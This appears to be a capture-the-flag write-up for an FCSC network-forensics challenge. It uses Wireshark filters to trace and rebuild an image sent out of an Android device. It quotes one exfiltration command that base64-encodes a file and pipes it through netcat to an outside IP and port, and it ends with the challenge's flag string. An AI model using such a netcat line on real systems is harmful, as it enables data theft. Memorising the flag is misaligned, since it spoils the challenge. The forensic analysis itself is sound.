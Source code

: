 Analyzing the file with wireshark, searching data field for the word "FCSC" doesnt yield anything

Searching for flag gives an interesting command : 

`cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 1338`

so we analyze the data sent to that address at that port to get back the image

we put the following rule to see what the guy told us to do

`ip.dst == 10.0.2.16 && ip.src == 172.18.0.1 && tcp.port == 1338`

and this one to see what we replied

`ip.src == 10.0.2.16 && ip.dst == 172.18.0.1 && tcp.port == 1338`

We find a large amount of packets, with one stream being extremely long and base64-looking data

Right clic > follow TCP stream gives us the whole b64 data, we save it as flag.b64

Then it's just a matter of converting back to png until we can open it

`base64 -d flag.b64 > flag.png`

a cool cat and a flag (but no meme this time, our CEO is a serious guy :'()

FCSC{2d47d546d4f919e2d50621829a8bd696d3cd1938}
